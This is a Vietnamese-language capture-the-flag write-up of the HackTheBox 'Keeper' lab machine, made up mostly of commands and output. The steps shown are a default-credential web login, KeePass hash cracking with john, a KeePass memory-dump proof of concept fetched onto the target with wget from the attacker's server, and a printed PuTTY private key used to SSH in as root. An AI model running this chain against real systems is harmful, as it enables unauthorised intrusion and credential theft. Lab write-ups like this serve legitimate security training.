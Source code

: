 ```yaml
---
layout: post
author: Neo
title: HackTheBox - Keeper
date: 2023-08-27
tags:
  - web
  - linux
  - ssh
  - keepass
  - hackthebox
categories: ctf
---
```


0. this unordered seed list will be replaced by toc as unordered list
{:toc}

## Reconnaissance and Scanning

Port scan, tôi dùng [RustScan](https://github.com/RustScan/RustScan)

```python
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3539d439404b1f6186dd7c37bb4b989e (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKHZRUyrg9VQfKeHHT6CZwCwu9YkJosNSLvDmPM9EC0iMgHj7URNWV3LjJ00gWvduIq7MfXOxzbfPAqvm2ahzTc=
|   256 1ae972be8bb105d5effedd80d8efc066 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBe5w35/5klFq1zo5vISwwbYSVy1Zzy+K9ZCt0px+goO
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: GET HEAD
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Truy cập thử vào web với port 80

![web](/assets/img/2023-08-27-HTB-Keeper/1.webp)

Tôi sẽ thêm hosts để truy cập domain này

![ticket](/assets/img/2023-08-27-HTB-Keeper/2.webp)

Tôi có một vài thông tin về page này: `best practical`, `RT 4.4.4+dfsg-2ubuntu1 (Debian)`. Tìm kiếm thông tin trên gu gồ và tôi có tài khoản mặc định ở [đây](https://docs.bestpractical.com/rt/4.4.4/README.html)
Thử đăng nhập với tài khoản mặc định `root`:`password`

![rt](/assets/img/2023-08-27-HTB-Keeper/3.webp)

Dạo quanh page này, tôi tìm thấy user khác ở *Admin -> Users -> Select*

![lnorgaard](/assets/img/2023-08-27-HTB-Keeper/4.webp)

Thử đăng nhập ssh bằng user mới

## SSH

```python
┌──(root㉿kali)-[/home/kali]
└─# ssh lnorgaard@10.10.11.227 
The authenticity of host '10.10.11.227 (10.10.11.227)' can't be established.
ED25519 key fingerprint is SHA256:hczMXffNW5M3qOppqsTCzstpLKxrvdBjFYoJXJGpr7w.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.227' (ED25519) to the list of known hosts.
lnorgaard@10.10.11.227's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have mail.
Last login: Sun Oct 15 13:42:38 2023 from 10.10.14.61
lnorgaard@keeper:~$ id
uid=1000(lnorgaard) gid=1000(lnorgaard) groups=1000(lnorgaard)
```

Tôi có `user.txt` ở đây

## Privilege escalation

Bên cạnh `user.txt`, tôi còn 1 file zip nữa `RT30000.zip`. Unzip nó và tôi được 2 file mới

```python
lnorgaard@keeper:~$ unzip /home/lnorgaard/RT30000.zip 
Archive:  /home/lnorgaard/RT30000.zip
  inflating: KeePassDumpFull.dmp     
 extracting: passcodes.kdbx
```

Unzip được 2 file. Với file passcodes, khi tìm hiểu cách mở file này, tôi tìm được cách crack password từ file kdbx với `john`

```python
┌──(root㉿kali)-[~kali/keepass-dump-masterkey]
└─# keepass2john passcodes.kdbx > passcodes.txt  
┌──(root㉿kali)-[/home/kali/keepass-dump-masterkey]
└─# john -w=/usr/share/wordlists/rockyou.txt.gz passcodes.txt 
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 60000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: UTF-16 BOM seen in wordlist. File may not be read properly unless you re-encode it
0g 0:00:12:40 DONE (2023-10-15 13:48) 0g/s 180.5p/s 180.5c/s 180.5C/s ����ʒ:�!=*$�\3T�x#a�U�L:�-*��(>8�^Y..R��4�^o��R��)����-�lQ�{�v{AC������
Session completed. 
```

Không có kết quả.

Tìm kiếm về KeePass và dump, tôi tìm được [CMEPW/keepass-dump-masterkey](https://github.com/CMEPW/keepass-dump-masterkey). Clone nó về và tải nó lên máy

```python
┌──(root㉿kali)-[~kali]
└─# git clone https://github.com/CMEPW/keepass-dump-masterkey.git
Cloning into 'keepass-dump-masterkey'...
remote: Enumerating objects: 9, done.
remote: Counting objects: 100% (9/9), done.
remote: Compressing objects: 100% (6/6), done.
remote: Total 9 (delta 0), reused 6 (delta 0), pack-reused 0
Receiving objects: 100% (9/9), 32.52 KiB | 756.00 KiB/s, done.               
┌──(root㉿kali)-[~kali]
└─# cd keepass-dump-masterkey 
┌──(root㉿kali)-[~kali/keepass-dump-masterkey]
└─# python3 -m http.server 4444
Serving HTTP on 0.0.0.0 port 4444 (http://0.0.0.0:4444/) ...

```

```python
lnorgaard@keeper:~/RT30000$ wget http://10.10.14.130:4444/poc.py
--2023-10-15 19:20:25--  http://10.10.14.130:4444/poc.py
Connecting to 10.10.14.130:4444... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2735 (2.7K) [text/x-python]
Saving to: ‘poc.py’

poc.py                                                          100%[====================================================================================================================================================>]   2.67K  --.-KB/s    in 0.004s  

2023-10-15 19:20:25 (620 KB/s) - ‘poc.py’ saved [2735/2735]

```

```python
lnorgaard@keeper:~/RT30000$ python3 poc.py -d KeePassDumpFull.dmp
2023-10-15 19:42:03,381 [.] [main] Opened KeePassDumpFull.dmp
Possible password: ●,dgr●d med fl●de
Possible password: ●ldgr●d med fl●de
Possible password: ●`dgr●d med fl●de
Possible password: ●-dgr●d med fl●de
Possible password: ●'dgr●d med fl●de
Possible password: ●]dgr●d med fl●de
Possible password: ●Adgr●d med fl●de
Possible password: ●Idgr●d med fl●de
Possible password: ●:dgr●d med fl●de
Possible password: ●=dgr●d med fl●de
Possible password: ●_dgr●d med fl●de
Possible password: ●cdgr●d med fl●de
Possible password: ●Mdgr●d med fl●de
```

Tôi không hiểu lắm về các password này, tìm kiếm về các tool keepass trên kali tôi tìm được `keepass2`

```python
┌──(root㉿kali)-[~kali/keepass-dump-masterkey]
└─# keepass2
```

![keepass](/assets/img/2023-08-27-HTB-Keeper/5.webp)

![password](/assets/img/2023-08-27-HTB-Keeper/6.webp)

Sau khi add file kdbx, tôi cần phải nhập password. Vậy thì tôi sẽ thử nhập từng password ở phần dump đã tìm được phía trên. Tuy nhiên thì không có cái nào được. Tôi thử sao chép cái password đó lên Gu gồ và được Gu gồ gợi ý sang 1 kết quả khác

![ideas](/assets/img/2023-08-27-HTB-Keeper/7.webp)

![ideas](/assets/img/2023-08-27-HTB-Keeper/8.webp)

Đoạn đầu tiên rất giống với password của tôi nên tôi sẽ thử nó

![pass](/assets/img/2023-08-27-HTB-Keeper/9.webp)

Vẫn không được. Nhưng tôi thử viết thường tất cả thì được

![key](/assets/img/2023-08-27-HTB-Keeper/10.webp)

Tôi có 1 PuTTY key ở đây. Lưu nó về dưới tên root.ppk và sử dụng `puttygen` để generate được private key của root.

```python
┌──(root㉿kali)-[/home/kali]
└─# cat root.ppk 
PuTTY-User-Key-File-3: ssh-rsa
Encryption: none
Comment: rsa-key-20230519
Public-Lines: 6
AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
Private-Lines: 14
AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
f7n24kvL0WlBQThsiLkKcz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzT
VkCew1DZuYnYOGQxHYW6WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivz
UXjcCAviPpmSXB19UG8JlTpgORyhAAAAgQD2kfhSA+/ASrc04ZIVagCge1Qq8iWs
OxG8eoCMW8DhhbvL6YKAfEvj3xeahXexlVwUOcDXO7Ti0QSV2sUw7E71cvl/ExGz
in6qyp3R4yAaV7PiMtLTgBkqs4AA3rcJZpJb01AZB8TBK91QIZGOswi3/uYrIZ1r
SsGN1FbK/meH9QAAAIEArbz8aWansqPtE+6Ye8Nq3G2R1PYhp5yXpxiE89L87NIV
09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa
xHhv1PDdSrE8tB9V8ox1kxBrxAvYIZgceHRFrwPrF823PeNWLC2BNwEId0G76VkA
AACAVWJoksugJOovtA27Bamd7NRPvIa4dsMaQeXckVh19/TF8oZMDuJoiGyq6faD
AF9Z7Oehlo1Qt7oqGr8cVLbOT8aLqqbcax9nSKE67n7I5zrfoGynLzYkd3cETnGy
NNkjMjrocfmxfkvuJ7smEFMg7ZywW7CBWKGozgz67tKz9Is=
Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0
```

```python
┌──(root㉿kali)-[/home/kali]
└─# puttygen root.ppk -O private-openssh -o root.pem
```

Login vào ssh

```python
┌──(root㉿kali)-[/home/kali]
└─# ssh -i root.pem root@10.10.11.227
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have new mail.
Last login: Sun Oct 15 14:41:25 2023 from 10.10.14.61
root@keeper:~# id
uid=0(root) gid=0(root) groups=0(root)
root@keeper:~# ls /root
root.txt  RT30000.zip  SQL
root@keeper:~# 
```

